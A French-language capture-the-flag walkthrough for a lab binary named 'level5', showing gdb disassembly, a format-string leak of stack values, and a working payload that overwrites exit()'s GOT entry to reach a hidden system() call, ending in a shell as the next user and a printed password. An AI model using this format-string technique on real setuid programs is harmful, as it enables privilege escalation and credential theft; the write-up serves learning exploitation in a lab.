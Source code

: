 # Level5

> login:password -> *`level5:0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`*
```
:~$ su level5
Password:0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
---

```
:~$ pwd
/home/user/level5
```

```
:~$ ls -la
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level5
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
```

Le Home contient un binaire `level5` :

```
:~$ ./level5
(input) test
test

:~$ ./level5 test
(input) test
test
```

Avec ou sans paramètre, le binaire attends un input

```
:~$ gdb level5
...

(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	    push   %ebp
   0x08048505 <+1>:	    mov    %esp,%ebp
   0x08048507 <+3>:	    and    $0xfffffff0,%esp
   0x0804850a <+6>:	    call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    
End of assembler dump.

(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
```

Le main va appeller une fonction `n()` (+6) et a l'intérieur de celle-ci on retrouve à nouveau `printf()` (+49) mais pas fonction `system()` ou autre moyen d'acceder au stdin, donc on va voir si on trouve d'autres fonctions utiles


```
(gdb) info functions
All defined functions:

Non-debugging symbols:
(...)
0x08048380  printf@plt
(...)
0x08048390  _exit@plt
(...)
0x080483a0  fgets@plt
(...)
0x080483b0  system@plt
(...)
0x080483d0  exit@plt
(...)
0x080484a4  o
0x080484c2  n
0x08048504  main
(...)
```

Finalement on retrouve bien l'utilisation d'une fonction `system()`, mais egalement l'utilisation d'une fonction `o()` qui semble inexploitée

```
(gdb) disas o
Dump of assembler code for function o:
   (...)
   0x080484aa <+6>:	    movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```

On determine du coup que la fonction `o()` pourra etre utilise pour atteindre le stdin, mais pour ce faire on va de nouveau exploiter `printf()`

```
:~$ python -c 'print " %x" * 4' | ./level5
 200 b7fd1ac0 b7ff37d0 25207825

:~$ python -c 'print "aaaa" + " %x" * 4' | ./level5
aaaa 200 b7fd1ac0 b7ff37d0 61616161
```

On decouvre que notre buffer est en 4e position. Apres la fonction `printf()` on trouve un appel de la fonction `exit()`, on va donc faire en sorte de remplacer l'adresse de cette derniere, par l'appel de la fonction `o()`

```
(gdb) info function exit
All defined functions:

Non-debugging symbols:
(...)
0x080483d0  exit@plt

(gdb) x/i 0x080483d0
   0x80483d0 <exit@plt>:	jmp    *0x8049838

(gdb) info function o
All defined functions:

Non-debugging symbols:
(...)
0x080484a4  o
(...)
```

On obtient ainsi les adresses desirees dans le GOT*:
- `exit()` : **0x8049838**
- `o()` : **0x080484a4**


À present on a toutes les informations neccessaires, il est tant de preparer notre exploit.

On traduit adresse de la fonction `exit()` dans le GOT: "\x38\x98\x04\x08" (ce qui nous donne **4 bytes**)

Puis on prend la valeur décimal pour atteindre `o()`: 134513828

> 134513828 - 4 = **134513824 bytes**

```
:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/level5

:~$ cat /tmp/level5 - | ./level5
(...)
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```



_Informations supplementaires_:
>*Global Offset Table, or GOT, is a section of a computer program's (executables and shared libraries) memory used to enable computer program code compiled as an ELF file to run correctly, independent of the memory address where the program's code or data is loaded at runtime.